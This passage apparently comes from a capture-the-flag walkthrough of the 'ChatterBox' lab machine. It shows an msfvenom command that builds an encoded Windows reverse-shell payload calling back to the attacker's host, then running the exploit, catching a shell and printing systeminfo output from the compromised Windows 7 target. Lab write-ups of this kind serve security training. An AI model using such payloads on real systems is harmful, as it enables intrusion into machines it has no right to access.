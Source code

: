 ```shell
msfvenom -a x86 --platform Windows -p windows/shell_reverse_tcp lhost=10.10.14.7 lport=4444 -e x86/unicode_mixed -b '\x00\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff' BufferRegister=EAX -f python
```

- and change the IP in the script to that of the target which is 10.10.10.74 and run

![](assets/ChatterBox_assets/Pasted%20image%2020230619111318.png)

- And in our listener we get a shell

![](assets/ChatterBox_assets/Pasted%20image%2020230619111354.png)

- we then get our user flag

![](assets/ChatterBox_assets/Pasted%20image%2020230619111735.png)

- we can run the `systeminfo` command to view more information about our compromised machine

```shell
C:\Windows\system32>systeminfo
systeminfo

Host Name:                 CHATTERBOX
OS Name:                   Microsoft Windows 7 Professional 
OS Version:                6.1.7601 Service Pack 1 Build 7601
OS Manufacturer:           Microsoft Corporation
OS Configuration:          Standalone Workstation
OS Build Type:             Multiprocessor Free
Registered Owner:          Windows User
Registered Organization:   
Product ID:                00371-222-9819843-86663
Original Install Date:     12/10/2017, 9:18:19 AM
System Boot Time:          6/19/2023, 9:46:43 AM
System Manufacturer:       VMware, Inc.
System Model:              VMware Virtual Platform
System Type:               X86-based PC
Processor(s):              1 Processor(s) Installed.
                           [01]: x64 Family 23 Model 49 Stepping 0 AuthenticAMD ~2994 Mhz
BIOS Version:              Phoenix Technologies LTD 6.00, 12/12/2018
Windows Directory:         C:\Windows
System Directory:          C:\Windows\system32
Boot Device:               \Device\HarddiskVolume1
System Locale:             en-us;English (United States)
```